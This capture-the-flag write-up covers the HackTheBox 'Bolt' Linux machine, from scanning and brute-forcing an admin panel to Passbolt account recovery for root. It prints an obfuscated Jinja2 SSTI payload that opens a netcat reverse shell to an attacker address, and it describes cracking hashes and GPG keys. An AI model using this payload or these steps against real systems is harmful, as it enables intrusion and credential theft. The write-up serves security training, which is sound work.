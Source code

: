 # Bolt HackTheBox Writeup
### Level: `Medium` | OS: `Linux`

![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](2.png)

## Enumeration
We put the subdomain in the **/etc/hosts** file and access the web resource.

![](3.png)

We access the resource through port 443 and find a **passbolt** deployed.

![](4.png)

We need invitation for used.

![](5.png)


## Exploitation
We use hydra on the "*bolt.htb/admin*" authentication panel and obtain the administrator credentials.

![](6.png)

We access with the credentials and go to the mail.

![](7.png)

We see that they are having a conversation in which they have uploaded a Docker image to the server.

![](8.png)

We do virtualhosting with wfuzz, we find these subdomains:

![](9.png)

### Roundcube

![](10.png)

### Create account bolt.htb
![](11.png)

Download image.tar
![](12.png)

We unzip the files, we find a **SQLite** database.

![](15.png)

### Hash cracking

![](16.png)

We use **grep** to search for the *invitation code* and find a file that exposes it.

![](17.png)

We register an account and use the invitation code.

![](18.png)

We also have access to email

![](19.png)

In testing, we found that it is vulnerable to SSTI (Server-Side Template Injection).

#### PoC 

![](36.png)

#### Result for mail

![](35.png)

We insert the payload in the name change and apply the changes.

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.XX.XX 443 >/tmp/f')|attr('read')()}}
```

![](20.png)

We will receive an email, so we will set a **netcat** to listen and click on it.

![](21.png)

##### Reverse shell

![](22.png)

We do a reconnaissance and find some credentials in the file "*passbolt.php*". 

![](23.png)

We tested these credentials on the user "eddie" and they work!

![](24.png)


## Privilege Escalation

.config/google-chrome/Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log

![](27.png)

We use **gpg2john** and get the hash in the file to crack it with **john**.

![](28.png)

##### Cracking with John

![](29.png)

Searching for information, we found through Google this link on how to recover a "**Passbolt**" account with the *GPG key* and *password*. Sound familiar?

https://community.passbolt.com/t/recover-account-on-a-network-without-email/1394


We access the database with the credentials found above.

![](30.png)

Select the user "**Eddie**", take his *ID* and *token*, this will be the data we need to create the cue recovery link.

![](33.png)

#### Recovery account
```html
https://passbolt.bolt.htb/setup/recover/ID/TOKEN
```

Access the link, load the *gpg file* and now enter your *password* (the one we cracked earlier with **john**).

![](31.png)

Once inside, we can see the root password.

![](32.png)

We authenticate as the **root** user and read the flag.

![](34.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)